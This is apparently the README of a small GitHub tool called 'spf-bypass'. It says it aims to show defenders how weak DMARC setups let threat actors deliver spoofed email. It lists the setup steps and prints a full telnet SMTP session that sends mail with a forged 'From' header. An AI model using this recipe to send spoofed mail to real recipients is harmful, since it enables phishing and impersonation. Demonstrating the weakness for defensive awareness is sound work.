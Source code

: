 # spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see https://blog.trendmicro.com/trendlabs-security-intelligence/how-cybercriminals-dodge-email-authentication/ for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

The executable itself simply provides an interactive console for implementing the below telnet commands that can be executed on any Windows or Linux endpoint.

    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .
